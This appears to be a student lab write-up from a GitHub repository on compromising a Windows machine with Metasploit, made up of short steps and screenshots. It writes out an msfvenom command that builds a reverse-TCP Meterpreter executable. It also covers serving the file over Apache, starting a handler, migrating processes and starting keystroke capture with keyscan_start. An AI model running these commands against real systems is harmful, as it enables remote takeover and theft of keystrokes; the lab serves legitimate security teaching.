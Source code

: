 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT
![Screenshot 2025-04-21 102057](https://github.com/user-attachments/assets/c2afd944-5b7d-4d4b-b276-77e6a42b5e30)

Create a malicious executable file test.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4433 -f exe -o test.exe
### OUTPUT
![Screenshot 2025-04-21 102313](https://github.com/user-attachments/assets/532f5d0e-a11d-402a-96e3-7c60d929b5f2)

Move the text.exe into the apache /var/www/html folder
### OUTPUT
![Screenshot 2025-04-21 102826](https://github.com/user-attachments/assets/42cf5fd8-2d45-4ee6-9dd9-074d8e153599)

Start apache server sudo systemctl apache2 start
### OUTPUT 
![Screenshot 2025-04-21 103045](https://github.com/user-attachments/assets/fcb4bbc9-f29b-4507-9682-52033de1a225)

Check the status of apache2
### OUTPUT 
![Screenshot 2025-04-21 103104](https://github.com/user-attachments/assets/84adeecb-ecbe-43f4-bf07-a2524e2098b4)

Invoke msfconsole:
### OUTPUT
![image](https://github.com/user-attachments/assets/732c3ea3-cb55-4163-9086-38e9409daa10)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler
### OUTPUT
![Screenshot 2025-04-21 103454](https://github.com/user-attachments/assets/ea4d4c41-957e-496c-adef-120d2a947ccf)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.100/test.exe The file "test.exe" downloads.
### OUTPUT
![image](https://github.com/user-attachments/assets/c8641cea-9222-4811-8650-1b590bb08e78)


Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
### OUTPUT
![image](https://github.com/user-attachments/assets/4d58e09e-6ae9-4770-8f4d-56b2f37f82fc)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the test.exe process running with pid 1156
### OUTPUT
![image](https://github.com/user-attachments/assets/2a9cb4a5-73e6-4d66-a96c-0823074f5f0a)
![image](https://github.com/user-attachments/assets/69948136-0ab0-4d3c-8f46-a068b121296f)

The Metasploit shell is running inside the "test.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4433, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

### OUTPUT
![image](https://github.com/user-attachments/assets/e5e4edd1-3e53-45d7-8039-621048eddad3)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

### OUTPUT
![image](https://github.com/user-attachments/assets/39b36e78-c171-46e4-bda2-0863113bd35a)
![image](https://github.com/user-attachments/assets/5b3328a4-f4f8-4d36-8137-c720473df252)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
